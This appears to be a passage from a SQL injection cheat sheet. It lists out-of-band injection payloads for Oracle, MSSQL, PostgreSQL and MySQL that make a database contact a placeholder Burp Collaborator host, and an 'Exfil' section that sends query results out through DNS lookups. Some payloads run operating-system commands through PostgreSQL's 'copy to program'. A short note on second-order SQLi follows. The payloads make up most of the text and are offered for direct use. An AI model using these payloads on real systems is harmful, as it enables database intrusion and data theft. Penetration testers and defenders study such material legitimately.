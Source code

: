 ```
Ex.
  '+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--
```

| host | syntax | notes |
| ---- | ------ | ----- |
| Oracle | `SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual` | XXE vulnerability, has been patched but there are still a lot of unpatched installations in the wild |
| Oracle | `SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')` | works on fully patched, requires elevated priv. |
| Microsoft | `exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'` ||
| PostgreSQL | `copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'` ||
| MySQL | `LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')` | windows only |
| MySQL | `SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'` | windows only |

##### Exfil

Oracle	SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
Microsoft	declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')
PostgreSQL	create OR replace function f() returns void as $$
declare c text;
declare p text;
begin
SELECT into p (SELECT YOUR-QUERY-HERE);
c := 'copy (SELECT '''') to program ''nslookup '||p||'.BURP-COLLABORATOR-SUBDOMAIN''';
execute c;
END;
$$ language plpgsql security definer;
SELECT f();
MySQL	The following technique works on Windows only:
SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'

| host | syntax | notes |
| ---- | ------ | ----- |
| Oracle | `SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'\|\|(SELECT YOUR-QUERY-HERE)\|\|'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual` ||
| Microsoft | `declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')` ||
| PostgreSQL | `create OR replace function f() returns void as $$ declare c text; declare p text; begin SELECT into p (SELECT YOUR-QUERY-HERE); c := 'copy (SELECT '''') to program ''nslookup '\|\|p\|\|'.BURP-COLLABORATOR-SUBDOMAIN'''; execute c; END; $$ language plpgsql security definer; SELECT f();` ||
| MySQL | `SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'` | windows only |

# Second-Order SQLi (Stored SQLi)
When the app takes user input from HTTP and stores it for future use (rather than using it right away -- first-order SQLi).
Usually places the input into a DB and the vulnerability triggers when a different HTTP request causes it to 
retrieve the injection in an unsafe way. Devs are often aware of SQLi and safely handle the initial placement, 
but once it's in the DB it's already been deemed safe so they don't have the same protections. 
